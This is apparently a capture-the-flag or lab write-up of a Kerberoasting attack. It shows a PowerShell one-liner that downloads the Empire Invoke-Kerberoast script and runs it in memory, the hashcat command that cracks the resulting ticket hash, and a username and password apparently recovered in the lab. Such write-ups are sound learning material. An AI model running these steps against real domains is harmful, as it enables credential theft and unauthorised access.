

Kerberoasting with Powershell
Lets first get the Powershell Invoke-Kerberoast script.
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
Now lets load this into memory: Invoke-Kerberoast -OutputFormat hashcat |fl
You should get a SPN ticket.
Note: The Target machine was unable to connect to github so i copied the raw data from github to ca local kerberos.txt file and hosted it using python from the attacker machine.

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.
hashcat -m 13100 -a 0 hash.txt wordlist --force
We gcrack the password. The credentials are
Username: fela
Password: rubenF124
Now we RDP into the machine with the new user. The flag is on the desktop.